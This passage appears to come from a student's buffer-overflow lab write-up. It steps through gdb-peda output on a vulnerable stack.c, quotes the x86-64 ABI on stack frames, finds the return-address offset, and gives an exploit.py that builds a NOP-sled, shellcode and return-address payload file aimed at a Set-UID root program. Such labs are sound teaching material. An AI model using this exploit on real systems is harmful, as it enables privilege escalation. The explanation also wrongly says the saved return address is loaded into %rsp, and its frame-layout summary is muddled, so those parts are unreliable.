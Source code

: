 If we set a breakpoint at the start of the <code>bof</code> function and run again, we get:

```console
Breakpoint 1, bof (str=0x2 <error: Cannot access memory at address 0x2>)
    at stack.c:16
16	{
gdb-peda$ x $rsp
0x7fffffffdc18:	0x000055555555535c
gdb-peda$ x $rbp
0x7fffffffe020:	0x00007fffffffe260
```

Ater typing <code>next</code>, we get:

```console
20	    strcpy(buffer, str);       
gdb-peda$ x $rsp
0x7fffffffdb30:	0x00007fffffffdac0
gdb-peda$ x $rbp
0x7fffffffdc10:	0x00007fffffffe020
```

To better understand the stack frame layout in x86-64 architecture, I went through [AMD64 ABI 1.0](https://raw.githubusercontent.com/wiki/hjl-tools/x86-psABI/x86-64-psABI-1.0.pdf) published on December 22, 2018 and found something really helpful:

> Each function has a frame on the run-time stack. This stack grows downwards from high addresses ... The value <code>%rsp + 8</code> is always a multiple of $16$ ($32$ or $64$) when control is transferred to the function entry point. The stack pointer, <code>%rsp</code>, always points to the end of the latest allocated stack frame. The $128$-byte area beyond the location pointed to by <code>%rsp</code> is considered to be reserved and shall not be modified by signal or interrupt handlers. Therefore, functions may use this area for temporary data that is not needed across function calls. In particular, leaf functions may use this area for their entire stack frame, rather than adjusting the stack pointer in the prologue and epilogue. This area is known as the *red zone* ... After the argument values have been computed, they are placed either in registers or pushed on the stack ... The size of each argument gets rounded up to eight bytes (therefore the stack will always be eight-byte aligned).

It should be noted that the first six arguments are not pushed on the stack but stored in registers on a $64$-bit architecture whereas in a $32$-bit architecture all the function arguments are pushed on the stack. To conclude, the latest allocated stack frame from low to high addresses is arranged as follows: $128$-byte red zone, register <code>%rsp</code>, local variables, register <code>%rbp</code>, saved return address (which is the value in register <code>%rip</code>), parameters. Whenever a function returns, the "saved return address" is popped from the stack and loaded in register <code>%rsp</code> and execution continues from that address.

The offset can be found by:

```console
gdb-peda$ p/x (unsigned long long) $rsp - (unsigned long long) &buffer
$1 = 0xd8
```

Then, exploit.py can be modified as:

```python
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0x7fffffffdb40 + 220
L = 8
addr = (ret).to_bytes(L,byteorder='little')
content[0:0xd7] = addr * 27

with open('badfile', 'wb') as f:
  f.write(content)
```


[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.